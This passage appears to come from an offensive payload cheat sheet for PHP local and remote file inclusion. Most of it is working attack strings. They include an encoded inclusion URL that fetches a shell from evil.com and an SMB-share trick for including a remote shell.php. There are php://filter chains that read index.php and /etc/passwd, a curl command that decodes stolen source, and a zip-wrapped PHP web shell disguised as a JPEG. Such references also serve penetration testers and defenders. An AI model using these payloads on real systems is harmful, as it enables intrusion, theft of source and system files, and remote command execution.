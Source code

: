 ```powershell
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```

### Bypass allow_url_include

When `allow_url_include` and `allow_url_fopen` are set to `Off`. It is still possible to include a remote file on Windows box using the `smb` protocol.

1. Create a share open to everyone
2. Write a PHP code inside a file : `shell.php`
3. Include it `http://example.com/index.php?page=\\10.0.0.1\share\shell.php`


## LFI / RFI using wrappers

### Wrapper php://filter

The part "php://filter" is case insensitive

```powershell
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```

can be chained with a compression wrapper for large files.

```powershell
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
```

NOTE: Wrappers can be chained multiple times using `|` or `/`: 
- Multiple base64 decodes: `php://filter/convert.base64-decoder|convert.base64-decode|convert.base64-decode/resource=%s`
- deflate then base64encode (useful for limited character exfil): `php://filter/zlib.deflate/convert.base64-encode/resource=/var/www/html/index.php`

```powershell
./kadimus -u "http://example.com/index.php?page=vuln" -S -f "index.php%00" -O index.php --parameter page 
curl "http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php" | base64 -d > index.php
```

### Wrapper zip://

```python
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php

http://example.com/index.php?page=zip://shell.jpg%23payload.php
```

